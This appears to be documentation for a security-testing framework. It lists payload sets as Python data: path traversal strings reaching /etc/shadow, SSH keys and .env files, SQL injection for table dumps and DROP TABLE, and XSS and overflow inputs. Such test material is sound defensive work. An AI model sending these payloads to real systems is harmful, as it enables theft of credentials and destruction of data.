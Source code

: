 ### **Attack Payloads Database**
The framework includes comprehensive attack payloads for:

#### **Path Traversal Payloads**
```python
path_traversal_payloads = [
    {"filename": "../../../etc/passwd", "description": "Unix password file access"},
    {"filename": "..\\\\..\\\\..\\\\windows\\\\system32\\\\drivers\\\\etc\\\\hosts", "description": "Windows hosts file access"},
    {"filename": "../../../home/user/.ssh/id_rsa", "description": "SSH private key access"},
    {"filename": "../../../../usr/local/bin/python", "description": "Python binary access"},
    {"filename": "../../../etc/shadow", "description": "Unix shadow file access"},
    {"filename": "../../.env", "description": "Environment variables access"},
    {"filename": "../requirements.txt", "description": "Project requirements access"},
    {"filename": "../../../etc/passwd\\x00.txt", "description": "Null byte bypass attempt"},
]
```

#### **SQL Injection Payloads**
```python
sql_injection_payloads = [
    {"user_id": "user123' OR '1'='1", "description": "Boolean-based injection"},
    {"user_id": "user123'; SELECT * FROM user_preferences; --", "description": "Stacked queries injection"},
    {"user_id": "user123' UNION SELECT 'admin','password','hash',datetime('now') --", "description": "UNION-based injection"},
    {"user_id": "user123' AND 1=0 UNION SELECT name,sql,'table','info' FROM sqlite_master WHERE type='table' --", "description": "Schema enumeration"},
    {"user_id": "user123' UNION SELECT user_id,preference_type,preference_value,created_at FROM user_preferences --", "description": "Full table dump"},
]
```

#### **Input Validation Bypass Payloads**
```python
weather_payloads = [
    {"city": "<script>alert('xss')</script>", "description": "XSS injection attempt"},
    {"city": "Paris'; DROP TABLE cities; --", "description": "SQL injection in city parameter"},
    {"city": "../../../../etc/passwd", "description": "Path traversal in city name"},
    {"city": "\\x00\\x01\\x02\\x03", "description": "Binary data injection"},
    {"city": "A" * 10000, "description": "Buffer overflow attempt"},
]
```

### **Evidence Collection**
Each successful attack generates evidence including:
- **Attack payload** and description
- **Tool response** and returned data
- **System impact** assessment
- **Vulnerability classification**
- **Remediation recommendations**
